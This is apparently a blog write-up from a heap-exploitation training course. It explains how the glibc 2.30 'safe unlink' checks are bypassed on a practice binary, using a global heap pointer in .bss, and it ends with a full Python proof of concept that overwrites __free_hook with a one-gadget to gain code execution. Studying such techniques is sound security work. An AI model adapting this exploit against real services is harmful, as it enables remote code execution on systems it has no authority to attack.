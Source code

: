 ```yaml
---
layout: post
title:  "HeapLAB 1 - Safe Unlink"
date:   2022-12-07 20:01:01 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Exploitation

The modern version of the unlinking technique, `safe unlink`, is abit more complex, as mitigations were added. 

The new partial unlinking algorithm introduces 3 new integrity checks:

1. `chunksize(p) != prev_size(next_chunk(p))`

In case we control the `prev_size` of the succeeding chunk after the one that is being freed, which is in our case - this can be easily bypassed. 

2. `fd->bk != p || bk->fd != p`

This is an harsh mitigation. We have to write near the fake target addresses, `bk, fd` ptrs that points back to the chunk being freed. 

3. `p->fd_nextsize->bk_nextsize != p || p->bk_nextsize->fd_nextsize != p`

Relevant only for `largebins`. 

The example binary contains a `glibc = 2.30`, with `NX, ASLR, Full RELRO, canary`. 

There are also pointers of the heap stored at the `.bss`. \
The trick is to use these pointers, so that the `safe_unlink` checks may pass. 

As with the `unsafe unlink`, the following 2 writes would happen:

```c
*(A->bk + 0x10) = A->fd;
*(A->fd + 0x18) = A->bk;
```

Moreover, the new constraints due to the improved mitigation are (assuming the `size` check can be easily bypassed):

```c
(A->bk)->fd == A
(A->fd)->bk == A
```

Meaning:

```c
*(A->bk + 0x10) == A
*(A->fd + 0x18) == A
```

Meaning a total of 2 writes, and 2 constraints:

```c
*(A->bk + 0x10) = A->fd;
*(A->fd + 0x18) = A->bk;
*(A->bk + 0x10) == A
*(A->fd + 0x18) == A
```

Recall that the writes are only being made after the constraints have succesfully passed. \
It *DOESN'T* mean the solution must enforce the following criteria: `A->fd == A->bk == A`.

So the trick is to find addresses that holds a pointer towards the heap's chunk, `A`. \
These addresses would be overwritten. \
Note that it is actually pretty common to see global pointers towards the heap. 

On the example binary, we have `m_array`, which is a global pointer at `0x602010`, that stores the value of `A` address, `0x603000`.

In case we set `A->fd + 0x18` to the address of `m_array`, the last check would pass - because `*(0x602010) == 0x603000`. \
The same holds for `A->bk + 0x10`. \

So the two constraints are being translated to:

```c
A->bk = &m_array - 0x10
A->fd = &m_array - 0x18
```

This would result with corrupting the quadword at `&m_array` with the value of `&m_array - 0x18` (as it is being the last write), and succesfully unlinking the consolidated chunk to a wrong place. 

Important note: we must make sure that the global pointer, `m_array`, points towards the *real* chunk heap address, and not only to its `user_data` part!

In order to overcome this, recall that we control `prev_size` field of the freed chunk. \
It means we can make malloc think the free chunk actually starts 0x10 bytes after it really does!

As said, after the unlink has occured, `m_array[0] = &m_array - 0x18`. \
A simple request to write to index 0 of the array results with an overflow of the `target` address.

Full RCE POC:

```python
# Request 2 small chunks.
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)

# Prepare fake chunk metadata - this setting of fd and bk is required to bypass the new mitigations
fd = elf.sym.m_array - 0x18
bk = elf.sym.m_array - 0x10
# We have to fake the previous allocated chunk size to 0x10 bytes below its original size, because m_array points at its user_content, not the chunk's start
prev_size = 0x80
# Set PREV_INUSE = 0, although the previous chunk IS allocated! this will allow the chunks consolidation
fake_size = 0x90

# Set new prev_size and size
chunk_a_prev_size = p64(0)
# Because of the size mitigation, it must match with the prev_size of the next chunk, which we set to 0x80 above
chunk_a_size = p64(0x80)  
# Note the total length of chunk_A should now appear as a total of 0x80
edit(chunk_A, chunk_a_prev_size + chunk_a_size + p64(fd) + p64(bk) + p8(0)*0x60 + p64(prev_size) + p64(fake_size))

# Trigger consolidation of chunk_A (because it is marked as not used), thus unlinking it
free(chunk_B)

# Now m_array[0] points to the .bss instead of the heap, overwrite it with our target address
edit(0, b"A" * 0x18 + p64(libc.sym.__free_hook))

# Overwrite the target data with onegadget
edit(0, p64(libc.address + 0xe1fa1))

# Trigger onegadget
free(chunk_A)
```
